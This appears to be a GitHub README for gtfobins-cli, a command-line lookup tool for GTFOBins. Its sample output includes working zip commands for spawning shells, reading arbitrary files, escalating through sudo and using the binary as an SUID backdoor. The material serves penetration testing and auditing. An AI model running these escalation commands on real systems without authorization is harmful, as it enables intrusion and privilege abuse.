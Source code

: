 # GTFOBins-CLI

`gtfobins-cli` is a command line interface for https://gtfobins.github.io.

This tool is perfect for those who work most of the time with a terminal and need to check if there is a way to escalate privilege using a certain command. Instead of opening the browser, going to https://gtfobins.github.io and looking for the command, `gtfobins-cli` does the same but from the terminal.

## Running `gtfobins-cli`

```console
$ git clone https://github.com/7Rocky/gtfobins-cli
$ cd gtfobins-cli/
$ chmod +x gtfobins-cli.py
```

Now, you can use either `python3 gtfobins-cli.py` or `./gtfobins-cli.py` to execute the tool.

Additionally, you can rename the script to simply `gtfobins-cli` and move it to a directory in your `PATH` environment variable (i.e `/usr/local/bin`), so that `gtfobins-cli` is available as a command at every working directory. Alternatively, you can create a symbolic link inside a directory in the `PATH` to the actual script. 

## Usage of `gtfobins-cli`

As easy as using https://gtfobins.github.io:

```console
$ gtfobins-cli [options] <command>
```

For example, you can read all information about a command:

```console
$ gtfobins-cli.py zip              

zip ==> https://gtfobins.github.io/gtfobins/zip/


Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF


File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

LFILE=file-to-read
TF=$(mktemp -u)
zip $TF $LFILE
unzip -p $TF


Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF


Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via system()-like invocations) it only works on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

sudo install -m =xs $(which zip) .

TF=$(mktemp -u)
./zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF 
```

Or you can try to be more specific:

```console
$ gtfobins-cli --shell zip

zip ==> https://gtfobins.github.io/gtfobins/zip/


Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

```console
$ gtfobins-cli --shell --sudo zip

zip ==> https://gtfobins.github.io/gtfobins/zip/


Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF


Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

## Using `gtfobins-cli` with Docker

There is an image in Docker Hub called `7rocky/gtfobins-cli` to execute `gtfobins-cli` from a Docker container:

```console
$ docker run --rm -it 7rocky/gtfobins-cli [options] <command>
```

If you want to build and run the image locally:

```console
$ cd gtfobins-cli/
$ docker build -t gtfobins-cli .
$ docker run --rm -it gtfobins-cli [options] <command>
```

Hope it is useful! :smile:

